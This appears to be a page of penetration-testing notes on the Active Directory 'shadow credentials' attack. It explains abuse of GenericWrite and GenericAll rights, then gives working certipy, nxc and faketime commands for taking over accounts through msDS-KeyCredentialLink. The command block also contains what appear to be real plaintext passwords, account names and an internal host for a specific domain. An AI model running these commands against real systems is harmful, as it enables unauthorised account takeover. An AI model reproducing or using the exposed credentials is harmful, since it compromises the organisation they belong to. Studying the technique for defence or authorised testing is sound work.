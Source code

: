 [https://github.com/Ridter/pyForgeCert](https://github.com/Ridter/pyForgeCert)

## Shadow Credentials

Shadow credentials attack consist of using the GenericAll or GenericWrite privilege on a user or computer to set up the attribute msDS-KeyCredentialLink.

[https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

With genericWrite you can only do:

* Target Kerberoasting : add an SPN to a user, do a kerberoasting, unset the spn. But the user password must be weak to the kerberoasting attack work.
* Set up a logon script : change ldap parameters to set up a logon script. but it implies that the user log to his computer, an smb server or a share to offer the script and setup a script that bypass the security solutions in place)
* shadow credentials : the attack we want to do, we need a cetificate service on the domain

With GenericAll you can :

* ForceChangePassword : but on a real pentest you donâ€™t want to block a user by changing his password. And this is not very stealthy too. So if you can do another way this is fine :)
* All the attacks available in the genericWrite part.

So if ADCS is enabled on the domain, and we got write privilege on msDS-KeyCredentialLink, we can do the shadow credentials attack to get a direct access on the user account.

{% code overflow="wrap" fullWidth="true" %}
```bash
######## PREREQUISITES
Besides the ability to write the attribute msDS-KeyCredentialLink on a target user or computer, for this technique to work, the environment must be set up as follows:
    Domain must have Active Directory Certificate Services and Certificate Authority configured.
    Domain must have at least one DC running with Windows Server 2016 that supports PKINIT.

certipy shadow auto -u user@domain.local -p 'password' -account '$USER_OVER_WHO_WE_HAVE_GENERIC_PRIVS'

# To see if it fails
minikerberos.protocol.errors.KerberosError:  Error Name: KDC_ERR_PADATA_TYPE_NOSUPP Detail: "KDC has no support for PADATA type (pre-authentication data)" 
# If the following command on the DC provides output, certs with KDC auth exists. Otherwise, Shadow Credentials will fail.
Get-ChildItem -Path Cert:\LocalMachine\My | Where-Object {$_.EnhancedKeyUsageList | Where-Object {$_.FriendlyName -match "KDC Authentication"}} | Format-List Subject,Issuer,Thumbprint,NotAfter,EnhancedKeyUsageList

# PREREQUISITES:
- ADCS running
nxc ldap 10.4.20.20 -u svc-ldapglpi -p 'cIglpIs3rvic34ccoun!' -M adcs
# Execute the attack
ntpdate dom.com
2025-06-16 20:21:20.645923 (+0200) +14401.838591 +/- 0.020498...
faketime "2025-06-16 20:21:20.645923" zsh
certipy shadow auto -account 'CISRVPGLPI01$' -u "sa-a.tanaka@citadelle.ci" -p 'AniW4sH3re' -dc-ip 10.4.20.20 -target CISRVPDC01.citadelle.ci
```
{% endcode %}

## Living Off The Land

[https://medium.com/@offsecdeer/adcs-exploitation-part-3-living-off-the-land-9c6494d6a84e](https://medium.com/@offsecdeer/adcs-exploitation-part-3-living-off-the-land-9c6494d6a84e)
